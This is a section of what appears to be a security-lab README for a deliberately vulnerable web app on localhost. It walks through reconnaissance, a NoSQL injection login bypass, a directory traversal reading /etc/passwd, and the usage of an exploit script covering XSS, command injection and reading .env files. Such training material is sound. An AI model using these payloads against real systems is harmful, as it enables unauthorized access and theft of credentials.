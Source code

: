 
## ⚡ 5-Minute Demonstration

```bash
# Step 1: Reconnaissance (1 min)
nmap -sV -p 3001 localhost
whatweb http://localhost:3001

# Step 2: Automated Exploitation (2 min)
python3 kali_exploit.py

# Step 3: Manual Exploitation - NoSQL Injection (1 min)
curl -X POST http://localhost:3001/login \
  -H 'Content-Type: application/json' \
  -d '{"username": "admin@snyk.io", "password": {"$gt": ""}}'

# Step 4: Directory Traversal (1 min)
curl 'http://localhost:3001/public/%2e%2e/%2e%2e/%2e%2e/etc/passwd'
```

---

## 📊 Python Exploitation Script Usage

### Run All Exploits
```bash
python3 kali_exploit.py --target http://localhost:3001
```

### Run Specific Exploits
```bash
# NoSQL injection
python3 kali_exploit.py -e nosql

# Directory traversal
python3 kali_exploit.py -e traversal

# XSS
python3 kali_exploit.py -e xss

# Command injection
python3 kali_exploit.py -e cmdinj

# Prototype pollution
python3 kali_exploit.py -e proto

# Information disclosure
python3 kali_exploit.py -e info
```

### Custom Parameters
```bash
# Custom file for directory traversal
python3 kali_exploit.py -e traversal -f "./../.env"

# Custom command for command injection
python3 kali_exploit.py -e cmdinj -c "whoami > /tmp/user.txt"
```

---